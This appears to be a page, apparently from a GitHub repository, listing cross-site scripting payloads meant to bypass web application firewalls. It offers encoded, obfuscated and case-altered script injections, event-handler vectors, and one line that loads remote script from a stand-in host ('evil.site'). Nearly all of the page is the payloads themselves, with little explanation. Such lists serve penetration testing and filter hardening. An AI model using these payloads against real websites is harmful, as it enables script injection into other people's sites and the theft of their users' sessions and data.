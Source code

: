 
### **Waf Bypass Payloads**

- Collected Payloads
    
    ```html
    <style>*{background-image:url('\\\\6A\\\\61\\\\76\\\\61\\\\73\\\\63\\\\72\\\\69\\\\70\\\\74\\\\3A\\\\61\\\\6C\\\\65\\\\72\\\\74\\\\28\\\\6C\\\\6F\\\\63\\\\61\\\\74\\\\69\\\\6F\\\\6E\\\\29')}</style>
    %3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%22%58%53%53%22%29%3C%2F%73%63%72%69%70%74%3E
    [̕h+͓.＜script/src=//evil.site/poc.js>.͓̮̮ͅ=sW&͉̹̻͙̫̦̮̲͏̼̝̫́̕
    "><input/onauxclick="[1].map(prompt)">
    <img src=x onerror=eval(atob('YWxlcnQoJ0kgb25seSB3cml0ZSBsYW1lIFBvQ3MnKQ==')) />
    '"--><Body onbeforescriptexecute="[1].map(confirm)">
    '-prompt.call(window, 'xss')-'
    <svg+onload=innerHTML=URL,outerHTML=textContent>#&ltimg/src/onerror=alert(domain)&gt
    <img src=x onVector=X-Vector onerror=alert(1)>
    %2sscript%2ualert()%2s/script%2u
    xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
    toString=\\\\u0061lert;window+' '
    aaaaa<h1 onclick=alert(1)>test
    <noscript><p title="</noscript><img src=x onerror=alert(document.domain)>">
    
    # Quick Defense:
    <input type="search" onsearch="aler\\\\u0074(1)">
    <details ontoggle="aler\\\\u0074(1)">
    
    # Unicode + HTML
    <svg><script>&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;(1)</script></svg>
    
    # URL
    <a href="javascript:x='%27-alert(1)-%27';">XSS</a>
    
    # Hex
    <script>eval('\\\\x61lert(1)')</script>
    
    # Only lowercase block
    <sCRipT>alert(1)</sCRipT>
    
    # Break regex
    <script>%0aalert(1)</script>
    